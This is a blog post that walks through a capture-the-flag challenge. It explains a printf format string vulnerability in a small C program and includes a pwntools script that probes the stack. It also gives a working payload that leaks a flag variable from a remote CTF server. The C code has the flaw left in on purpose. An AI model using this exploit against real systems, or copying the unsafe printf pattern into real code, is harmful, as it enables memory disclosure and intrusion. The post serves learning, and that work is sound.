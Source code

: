 ```yaml
---
title: "Learning about format string vulnerabilities"
date: 2025-06-18
summary: "Sometime last year, I took part in the company hackathon and came across some nice questions which were fun to solve. This post is about learning how to exploit unsafe uses of printf in C code."
draft: false
---
```


The problem gives us a C source file and a binary called nuformat1. Inspecting the source code:

```c
char flag[48];
.
.
 
void vuln()
{
    char input[32];
    puts("What is your name?");
    fgets(input, 18, stdin);
    printf(input);
}
 
int main()
{
    read_flag();
    vuln();
    return 0;
}
```

I did not really know what the exact vulnerability involved is, since I've never done much binary exploitation. It is obvious that the vuln is in vuln() function, so it looks like either fgets or printf are the culprits. fgets made me think of buffer overflow, but we did have the size to read hardcoded, so it did not make as much sense too. I googled around binary exploitation common vulns and printf and fgets and stumbled upon this: Format string attack


The naming of the question cannot be a coincidence to this printf vulnerability, so heads down to learn this new idea. I took help from llms and this specific resource: https://tc.gts3.org/cs6265/tut/tut05-fmtstr.html

The gist of the attack is that printf is able to help us climb the stack arbitrarily and read values AND read the strings at those addresses (indirect).
If you do not give printf a second arg but still supply formatters, it starts looking into the stack. So `printf('%p')` will print the first value on the stack as a pointer. `'%p%p'` will print both the first and the second value on the stack. More conveniently `'%[n]$p'` can help read the nth value on the stack. Not just this, but `'%[n]$s'` can read the string at the ADDRESS stored as the nth value on the stack.


So, if `'%3$p'` prints `0xCOFFEE` then `'%3$s'` will READ and print the string at `0xCOFFEE` till it finds NULL (0x0)

I wrote a small script to probe around and see what values I can see around the stack:

```python
from pwn import *
context.log_level = 'ERROR'  # Suppress pwntools output
 
def generate_format_string(start_idx, count=3):
    return 'AAA' + ' '.join([f'%{i}$p' for i in range(start_idx, start_idx + count)])
 
for i in range(1, 30, 3):
    p = process('./nuformat1')
    fmt = generate_format_string(i)
    p.recvuntil(b"What is your name?\n")
    p.sendline(fmt.encode())
    out=p.recvall().decode().strip()
    print('{} {} {}: '.format(i, i+1, i+2)+out)
    p.close()
```

The 'AAA' string is a good way to mark your own string. It shows up as 0x41 in hex.

![screenshot of the output](/nuformat1-ss-1.png "And this is what we get. Look at those 41s!")

It looks like `%8$p` prints our string! (so does %9$p)

This makes the question interesting, because we have an area of memory that we have full control over, and KNOW where it is. If I were to now put the location of the global flag variable in %8 and do %$s then I would be able to print what is in flag variable!


But of course first I need to find the location of the flag variable. I do this with objdump

```
(venv) ubuntu@ctf-machine:~/tmp/format1$ objdump -t nuformat1 | grep flag
0000000000404020 g     O .bss   0000000000000030              flag
```

This is in the bss section of the binary, so it is probably not going to change, even on the server.

So now I know that the flag variable is at `0x404020`, I just need to put `0x404020` somewhere and read it with `%[n]$s`.

Let's make our payload! I chose to put the address in %9 (for some reason %8 just didn't work for me)

```python
from pwn import *
 
payload = b"%9$s" + b"AAAA" + b"\x20\x40\x40\x00\x00\x00\x00\x00" # Little-endian business (This is 0x0000000000404020)
# payload = b'%9$s....' + p64(0x404020) # Can also write like this, p64 is a util from pwn
 
#p = process('./nuformat1')
p = remote('nuformat1-1610741707.ctf.nutanix.com', 10007)
p.recvuntil(b"What is your name?\n")
p.sendline(payload)
print(p.recvall())
```

Running this gives us our flag!
```
(venv) ubuntu@ctf-machine:~/tmp/format1$ python retro.py
[+] Opening connection to nuformat1-1610741707.ctf.server.com on port 10007: Done
[+] Receiving all data: Done (49B)
[*] Closed connection to nuformat1-1610741707.ctf.server.com port 10007
b'NuCTF{1_l0v3_f0rm4t_str1ng5_34res73fsywer}.... @@'
```

FIN